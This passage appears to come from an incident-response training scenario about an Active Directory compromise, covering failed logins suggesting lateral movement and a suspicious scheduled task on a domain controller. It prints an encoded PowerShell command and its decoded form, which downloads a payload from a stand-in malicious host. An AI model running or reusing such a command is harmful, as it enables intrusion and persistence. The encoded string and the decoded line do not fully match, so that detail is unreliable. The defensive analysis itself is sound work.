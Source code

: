 **Telemetry Data (Failed Logins and Lateral Movement):**
- **Source Hosts**: `WORKSTATION-07`, `WORKSTATION-12`
- **Target Accounts**: `Admin01`, `SQLAdmin`, `BackupAdmin`
- **Event Timeline**:
  - **10:30 AM** - Login failures for `Admin01` from `WORKSTATION-07`
  - **10:32 AM** - Login failures for `SQLAdmin` from `WORKSTATION-12`
  - **10:35 AM** - Failed logins for `BackupAdmin` from `WORKSTATION-07`

**Analysis:**  
These failed login attempts indicate attempted lateral movement. The compromised account may be attempting to access sensitive AD or network resources using elevated account names, suggesting the attacker is exploring potential escalation paths.

<div class="neon-line"></div>

#### **Alert 4: Creation of a Suspicious Scheduled Task on Domain Controller (DC-02)**

**Telemetry Data (Scheduled Task Creation):**
- **Domain Controller**: `DC-02`
- **Scheduled Task Name**: `UpdatePolicy`
- **Command**:
  ```shell
  powershell.exe -enc JABxPSdodHRwOi8vbWFsaWNpb3VzLXVwZGF0ZXJzZXJ2ZXIuY29tL3BheWxvYWQvZG93bmxvYWQucHN1JztpRXhlY3VSZXF1ZXN0IC11cmkgJABxIC1PdXRGaWxlICcDgYB3VG1wJzAycHNyJw==
  ```
  - **Decoded Command**: 
    ```shell
    Invoke-WebRequest -Uri http://malicious-updater.com/payload/download.ps1 -OutFile C:\Temp\malicious.ps1
    ```
- **Execution Time**: Set to trigger every 12 hours

**Analysis:**  
The task `UpdatePolicy` appears to download and execute a remote PowerShell script, suggesting a persistence mechanism. It’s likely an attempt to ensure continuous access, even after initial compromise measures are discovered and mitigated.

<div class="neon-line"></div>

### **Investigation Steps**

This is a structured investigation flow to fully analyze the incident and recommend actions.

#### **Step 1: Identify Privilege Escalation and Group Modification Events**

- **Review Account Activity for `MarketingUser01`:**
  - Investigate how `MarketingUser01` obtained access to add itself to `Domain Admins`.
  - Check if `MarketingUser01` had any recently modified permissions or if its credentials were compromised (e.g., via phishing).
  
- **Audit AD Group Membership Changes:**
  - Review logs to confirm when and by whom `MarketingUser01` was added and removed from `Domain Admins`.
  - Investigate any patterns or repeated group modifications involving other non-admin users.
